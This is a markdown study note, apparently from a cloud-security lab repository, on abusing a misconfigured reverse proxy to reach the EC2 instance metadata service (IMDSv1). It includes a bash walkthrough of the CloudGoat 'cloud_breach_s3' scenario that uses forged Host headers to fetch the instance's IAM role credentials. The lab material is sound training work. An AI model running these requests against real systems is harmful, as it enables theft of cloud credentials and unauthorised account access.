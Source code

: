 
#### IMDSv1

Reverse proxy server
- such a Nginx or Traefik etc
- retrieves resources on behalf of a client/resource from one or more servers.
- the reverse proxy server is set up in a way that anyone can set the host header to call the instance metadata API and obtain the credentials.
- The instance metadata contains data about the EC2 instance that can use to configure or manage the running instance.
- When an HTTP request is made to the proxy server, it contains instructions to the host.
- reverse-proxy or application layer "edge router" forward the requests to appropriate service based on the Host header in HTTP requests.

- A bad actor can manipulate the host header
  - to fetch other data on the proxy server such as the IAM credential.
  - exploit reverse-proxy server with overly permissive configuration
  - to reach internal applications that we can't reach otherwise.
  - gets even more severe in cloud resources because of "Instance Metadata".
    - EC2 instance metadata service (IMDS)
    - Instance metadata is data about your instance that use to configure or manage the running instance.
    - Instance metadata can be accessed at the IP address 169.254.169.254, a link-local address and is valid only from the instance.


```bash
#!/bin/bash
INFILE=~/.aws/credentials
AWS_REGION='us-east-1'


# ------------- 1. deploy the resources for each scenario on AWS
./cloudgoat.py create cloud_breach_s3
# starts with the IP address of an AWS EC2 instance with a misconfigured reverse proxy.
# got the accountID and EC2 IP
EC2IP='34.228.232.48'
# the service on port 80 of the IP address is acting as a reverse-proxy server.
namp 34.228.232.48


# ------------- 2.  use curl to do a HTTP request to the EC2 Instance
# exploit the reverse-proxy server to reach out to EC2 instance metadata service (IMDS).
# using curl HTTP client to make a HTTP request to retrieve metadata
# manipulate the host header
# - add a "Host" header whose value points to IP address of IMDS service.
# - to fetch other data on the proxy server such as the IAM credential associated with the instance running.
# If the reverse-proxy server has overly permissive configuration
# - the request will be forwarded to IMDS service
# - and it will return some metadata related information.
# reveals that the instance is acting as a reverse proxy server.

IPV4=`curl -s https://$EC2IP/latest/meta-data/local-ipv4 -H 'Host:169.254.169.254'`
# 10.10.10.238
# evident that the reverse-proxy server has overly permissive configuration to access AWS EC2 IMDS.

IAMROLENAME=`curl https://$EC2IP/latest/meta-data/iam/security-credentials -H ‘Host: 169.254.169.254’`
# cg-backing-WAF-Role-cgidppobj072co

# Use a curl to get more information about the IAM role.
IAMROLEINFO=`curl https://$EC2IP/latest/meta-data/iam/security-credentials/$IAMROLENAME -H ‘Host: 169.254.169.254’`
```